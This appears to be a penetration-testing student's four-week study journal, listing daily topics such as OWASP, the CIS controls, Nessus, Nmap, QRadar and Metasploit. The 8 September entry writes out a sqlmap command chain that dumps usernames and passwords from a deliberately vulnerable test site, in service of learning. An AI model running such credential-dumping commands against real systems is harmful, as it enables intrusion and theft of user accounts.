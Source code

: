# day-day Journal

--------------------------Week-1--------------------------<br>
<22 August> 10 Hackers and their accomplishments. <br>
<23 August> what vulnerabilities are available for a perticular port.<br>
<24 August> OWASP top 5 vulnerabilities and test it on a website.<br>
<25 August> How Servers Work understanding web app attack what is a attack? Plot vulnerabilities other than OWASP top 10<br>
<26-27 Aug> Exploit OWASP top 10<br>
----------------------------------------------------

--------------------------Week-2--------------------------
<28 August> 10 web Server Attacks<br>
<29 August> 
Inventory and Control of Hardware Assets
Inventory and Control of Software Assets
Continuous Vulnerability Management
Controlled Use of Administrative Privileges
Secure Configuration for Hardware and Software on Mobile Devices, Laptops, Workstations and Servers
Maintenance, Monitoring and Analysis of Audit Logs Foundational
Email and Web Browser Protections
Malware Defenses
Limitation and Control of Network Ports, Protocols, and Services
Data Recovery Capabilities
Secure Configuration for Network Devices, such as Firewalls, Routers and Switches
Boundary Defense
Data Protection
Controlled Access Based on the Need to Know
Wireless Access Control
Account Monitoring and Control Organizational
Implement a Security Awareness and Training Program
Application Software Security
Incident Response and Management
Penetration Tests and Red Team Exercises<br>
<30 August> Understanding CIS Policy version 7and write about them<br>

<31 August> OFF DAY<br>

<1 September> Passive Reconnisence of a website without pinging it. What is OSNIT framework?<br>

--<2-3 September> Use 10 tools on kali available in the menu section.<br>
----------------------------------------------------
--------------------------Week-3--------------------------
<4 September> Scan any website to check the vulnerabilities in the website using nessus and make a report on it<br>
<5 September> Explore cheatsheet commands(Go through Nmap) and memorize the port nos<br>

<6 September> OFF DAY<br>

<7 September><br>
<8 September> sqlmap -u http://testphp.vulnweb.com/artists.php?artist=2 -dbs | sqlmap -u http://testphp.vulnweb.com/artists.php?artist=2 -D acuart --tables | sqlmap -u http://testphp.vulnweb.com/artists.php?artist=2 -D acuart -T users --columns | sqlmap -u http://testphp.vulnweb.com/artists.php?artist=2 -D acuart -T users -C uname --dump
sqlmap -u http://testphp.vulnweb.com/artists.php?artist=2 -D acuart -T users -C pass --dump  [vulweb using sqlmap]<br>


*--<9-10 September> 
----------------------------------------------------
--------------------------Week-4--------------------------
<11 September> Doccumntation on What is Syn and SEIM.<br>
<12 September> Doccumentation on What is wincollect and StandAlone winollect<br>
<13 September> pick 4-5 logs from ibm qradar and doccument business impact. What is Local Security Policy in windows.<br>
<14 September> 3 Vulnerabilities exploitaion on metasploit<br>
<15 September> Doccumentation on burpsuit<br>
----------------------------------------------------
